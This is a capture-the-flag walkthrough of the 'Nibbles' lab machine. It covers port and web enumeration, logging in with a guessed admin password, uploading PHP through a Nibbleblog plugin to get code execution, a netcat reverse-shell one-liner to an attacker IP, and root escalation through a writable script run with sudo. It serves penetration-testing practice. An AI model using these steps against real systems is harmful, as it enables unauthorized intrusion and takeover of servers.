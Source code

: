 # Nibbles Walkthrough
### Enumeration
The first when approaching any machine is to perform some basic enumeration. First, let's start with we do know about the target. We already know the target's IP address, that it is Linux, and has a web-related attack vector.

There are three main types of penetration testing actions, **black-box**, **grey-box**, **white-box**

- *Black-box*: Low level to no knowledge of a target. The penetration tester must perform in-depth reconnaissance to learn about the target. 
- *Grey-box*: In a grey-box test, the tester is given a certain amount of information in advance. This may be a list of in-scope IP addresses/ranges, low-level credentials to a web application or Active Directory, or some application/network diagrams. 
- *White-box*: In this type of test, the tester is given complete access. In a web application test, they may be provided with administrator-level credentials, access to the source code, build diagrams, etc., to look for logic vulnerabilities and other difficult-to-discover flaws.

##### Nmap
Let's do quick `nmap` scan to look for open ports using the command `nmap -sV --open -oA nibbles_initial_scan <ip-addr>`. This will run a service enumeration `sV` against the default top 1,000 ports and only return open ports `--open`. Finally, it outputs all scan formats `-oA`. This includes XML output, greppable output, and text output that may be useful later.

From the initial scan we see that ports 22 OpenSSH server and an Apache web server on port 80.  Before we start poking around at the open ports, we can run a full TCP port scan using the command `nmap -p- --open -oA nibbles_full_tcp_scan $IP`. This may find some ports that we may have missed. Now we can use `nc` to do some banner grabbing and confirm what `nmap` told us.

`nc -nv $IP 22`
and
`nc -nv $IP 80`

Port 22 returns a banner showing that it is indeed an OpenSSH server, however port 80 doesn't return a banner.

The finished `-p-` scan returned no new ports that were open on the machine. Now we can do a `-sC` standard scripts scan on the open ports. We will run the command `nmap -sC -p 22,80 -oA nibbles_script_scan $IP`

The scan did not give us anything handy, so we can wrap up the `nmap` enumeration using the ***http-enum*** script, which can be used to enumerate common web application directories.

### Web Footprinting
Can use `whatweb` to try to identify the web application in use.

`whatweb <ip address>`

There's some interesting content in the source code of the web page. You can also use `curl` on the site using `curl http://<ip address>`

This reveals a HTML comment showing that there exists a directory called */nibbleblog* that we can go to.

##### Directory Enumeration
Browsing to /nibbleblog we don't really see anything here that sticks out. A quick Google search for "nibbleblog exploit" yields a Nibblblog File Upload Vulnerability. The flaw allows an authenticated attacker to upload and execute arbitrary PHP code on the underlying web server. The **Metasploit** module in question works for version **4.0.3**. We don't know the exact version number yet of Nibblblog, but it is a good bet that it is vulnerable to it.

We can use `gobuster` tool to find some more directories...
It confirms the prescense of a /admin.php login page. We can check the README page for interesting information, such as the version number of Nibblblog.

In the README we see that the Nibblblog version is ***v.4.03*** which is vulnerable to the vulnerability found earlier. Also poking around other directories such as /content, we find a file called users.xml that shows there is indeed a username called 'admin' and blacklisted IP addresses. We can curl this down and use `xmllint` to prettify it.

`curl http://$IP/nibbleblog/content/private/users.xml | xmllint --format -`

Looking at the *config.xml* file we see some more references to admin and nibbles. Trying out the word *nibbles* yields a successful login for the admin user to the portal.

### Initial Foothold
Now that we are logged in to the admin portal, we need to attempt to turn this access into code execution and ultimately a reverse shell on the webserver. We know there's a metasploit module for this, but let's try to enumerate the admin portal for other avenues of attack first.

We see that in the plugins section, there's a *my_image* section that allows for you to upload an image. If we upload a PHP script instead, let's see what it does. It gives errors but appears to be uploaded. We find that the script was put in /nibbleblog/content/private/plugins/my_images/*image.php*

Let's see if we have code execution

`curl http://$IP/nibbleblog/content/private/plugins/my_images/image.php`

Now that we see there's code execution, we can use a `Bash` reverse shell one-liner and add it to our PHP script .

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f`

### Privilege Escalation
We see that there is file `personal.zip` and we can unzip it. There is a shell script `monitor.sh` and it is owned by our nibbler user and writeable.

We find that nibbler user can run all sudo without password
We can append the reverse shell to the monitor.sh script and run it with sudo to capture a root reverse shell.


### Alternate User Method - Metasploit

